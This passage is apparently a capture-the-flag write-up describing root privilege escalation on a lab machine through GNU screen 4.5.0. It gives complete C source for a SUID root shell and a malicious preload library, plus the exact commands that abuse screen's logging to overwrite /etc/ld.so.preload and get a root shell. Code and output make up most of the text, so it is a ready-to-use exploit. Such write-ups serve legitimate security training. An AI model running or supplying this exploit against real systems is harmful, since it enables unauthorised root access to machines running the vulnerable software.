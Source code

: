 1. Compile `/tmp/rootshell`, a binary that simply spawns /bin/sh as user root
2. Compile `/tmp/libhax.so`, a shared library that will be loaded by `screen` as root. It chmods my `rootshell` binary to make it run as root.
3. Run screen and overwrite `/etc/ld.so.preload` to include the shared library `/tmp/libhax.so`
4. Run screen gain, this will load the shared library and execute the code
5. Now, the rootshell binary is SUID root and we can run it to get root access

```
$ cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
} 
> EOF

$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
$ rm -f /tmp/libhax.c
```

```
$ cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
$ gcc -o /tmp/rootshell /tmp/rootshell.c
$ rm -f /tmp/rootshell.c
```

```
$ cd /etc
$ umask 000
$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
$ /bin/screen-4.5.0 -ls
[+] done!
No Sockets found in /tmp/screens/S-www-data.

$ /tmp/rootshell
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
```

Now that I'm root I can grab both flags at the same time.

```
cat /root/root.txt
1fdbcf8c...

cat /home/shelby/user.txt
fe619454...
```